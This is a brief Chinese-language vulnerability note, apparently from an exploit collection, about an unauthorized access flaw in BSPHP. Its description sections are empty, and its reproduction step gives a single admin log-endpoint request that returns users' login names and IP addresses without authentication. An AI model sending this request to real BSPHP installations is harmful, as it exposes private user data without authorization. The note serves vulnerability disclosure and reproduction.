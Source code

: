 BSPHP 存在未授权访问漏洞
========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

该处泄漏的用户名和登陆ip。

```
/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&bsphptime=1600407394176&soso_id=1&soso=&DESC=0
```

![image.png](.resource/BSPHP%20%E5%AD%98%E5%9C%A8%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E/media/1600850992225-90182999-bbb8-4b08-8b37-ced3c7e1da57.png)